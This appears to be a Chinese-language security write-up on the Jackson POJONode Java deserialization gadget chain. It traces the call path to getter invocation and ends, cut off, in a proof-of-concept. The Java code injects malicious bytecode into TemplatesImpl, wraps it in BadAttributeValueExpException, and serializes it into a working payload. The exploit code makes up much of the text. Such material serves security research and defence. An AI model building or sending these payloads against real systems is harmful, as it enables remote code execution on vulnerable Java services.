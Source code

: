 ### POJONode链

入口点位于com.fasterxml.jackson.databind.node下POJONode.toString

实际上调用的是父类BaseJsonNode.toString

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241014153045970.png)

nodeToString调用到writeValueAsString，会触发getter

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241014153105858.png)

但是在序列化过程中，ObjectOutputStream.writeObject0会判断类是否重写了writeReplace方法

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241014153445716.png)



![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241014153454999.png)

BaseJsonNode重写了writeReplace方法

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241014153549511.png)

在调用这个方法时发生了异常，把这个方法删了可以顺利序列化

序列化当然不会影响反序列化的进程，直接重写

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241014155725144.png)

利用链：

```java
BadAttributeValueExpException.readObject ->
    POJONode.toString ->
    	InternalNodeMapper,nodeToString ->
    	JSONMapper.writeValueAsString -> getter
```

POC:

```java
public class POJONode_TemplatesImpl {
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("target/classes/TemplatesImpl_RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        POJONode pojoNode = new POJONode(templatesClass);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field field = BadAttributeValueExpException.class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, pojoNode);
        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws Exception
```